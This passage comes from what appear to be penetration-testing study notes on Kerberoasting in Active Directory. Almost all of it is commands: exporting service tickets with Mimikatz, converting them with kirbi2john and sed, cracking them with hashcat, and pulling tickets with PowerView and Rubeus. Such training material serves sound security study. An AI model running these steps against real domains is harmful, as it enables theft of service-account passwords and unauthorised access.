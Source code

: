 We need to specify `base64 /out:true` or mimikatz will extract the tickets and write them to **.kirbi** files. Now we can take base64 blolb and remove new lines and white spaces:
```console
zero@pio$ echo "<base64 blob>" |  tr -d \\n
```

We  can place the above single line of output into a file and convert it back to a .kirbi file using the base64 utility:
```console
zero@pio$ cat encoded_file | base64 -d > ticket.kirbi
```

Next, we can use this version of the [kirbi2john.py](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) tool to extract the Kerberos ticket from the TGS file:
```console
zero@pio$ python2.7 kirbi2john ticket.kirbi
```

This will create a file called **crack_file**. We must modify the file to be able to use hashcat:
```console
zero@pio$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > tgs_hashcat
```

Now we can crack it with hashcat:
```console
zero@pio$ hashcat -m 13100 tgs_hashcat <WORDLIST>
```

If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run kirbi2john.py against them directly, skipping the base64 decoding step.

### Tool Based Route 

First, use PowerView to extract the TGS tickets:
```console
PS C:\zeropio> Import-Module .\PowerView.ps1
PS C:\zeropio> Get-DomainUser * -spn | select samaccountname
```

Target a specific user:
```console
PS C:\htb> Get-DomainUser -Identity <USER> | Get-DomainSPNTicket -Format Hashcat
```

Export all tickets to CSV:
```console
PS C:\zeropio> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\<USER>_tgs.csv -NoTypeInformation
```

We can also use [Rubeus](https://github.com/GhostPack/Rubeus) from GhostPack to perform Kerberoasting even faster and easier.:
```console
PS C:\zeropio> .\Rubeus.exe
```

Rubeus include:
- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting
